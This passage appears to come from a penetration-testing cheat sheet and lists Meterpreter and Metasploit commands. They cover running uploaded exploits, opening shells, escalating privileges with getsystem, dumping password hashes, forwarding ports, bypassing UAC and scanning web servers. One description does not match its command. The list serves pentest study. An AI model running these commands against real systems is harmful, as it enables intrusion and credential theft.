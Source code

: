 - Meterpreter download file from Windows target

```bash
execute -f c:\\windows\temp\exploit.exe
```

- Meterpreter run .exe on target – handy for executing uploaded exploits

```bash
execute -f cmd -c
```

- Creates new channel with cmd shell

```bash
ps
```

- Meterpreter show processes

```bash
shell
```

- Meterpreter get shell on the target

```bash
getsystem
```

- Meterpreter attempts priviledge escalation the target

```bash
hashdump
```

- Meterpreter attempts to dump the hashes on the target (must have privileges; try migrating to winlogon.exe if possible first)

```bash
portfwd add –l 3389 –p 3389 –r target
```

- Meterpreter create port forward to target machine

```bash
portfwd delete –l 3389 –p 3389 –r target
```

- Meterpreter delete port forward

```bash
use exploit/windows/local/bypassuac
```

- Bypass UAC on Windows 7 + Set target + arch, x86/64

```bash
use auxiliary/scanner/http/dir_scanner
```

- Metasploit HTTP directory scanner

```bash
use auxiliary/scanner/http/jboss_vulnscan
```
